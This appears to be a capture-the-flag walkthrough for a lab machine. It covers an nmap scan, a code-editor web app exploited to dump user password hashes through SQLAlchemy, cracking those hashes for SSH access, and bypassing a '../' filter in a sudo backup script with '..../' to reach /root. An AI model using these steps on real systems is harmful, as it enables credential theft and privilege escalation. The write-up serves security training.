 # nmap

![code](../images/code.png)
`╰─❯ sudo nmap -sV 10.10.11.62
Password:
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2025-05-20 15:14 EEST
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 43.45% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 51.50% done; ETC: 15:14 (0:00:02 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 52.17% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.03% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 15:14 (0:00:06 remaining)
Nmap scan report for 10.10.11.62
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.83 seconds`

from nmap we notice that theres http open in port 5000 and when you go to it you will find a online code editor for python

# user

after 30 mins of searching you can see that it might be a flask app with sqlalchemy running in it so a code like this will dump the hashes of the users

`print([(user.id, user.username, user.password) for user in User.query.all()])`

> [(1, ‘development’, ‘759b74ce43947f5f4c91aeddc3e5bad3’), (2, ‘martin’, ‘3de6f30c4a09c27fc71932bfc68474be’)]

using crackstation you can find the password of ssh of the user martin

# privilege escalation

theres an app-producion directory that requires root so that is our target.

using sudo -l will tell the things we can run in sudo mode as martin and we will notice that theres a backup bash code that edits task.json

```bash
martin@code:~/backups$ cat /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done
```

so that means we can edit the directories to archive to any file we want so we will put user.txt and to go to root we will use the ../ method

/home/…./root

run the bash after editing the files
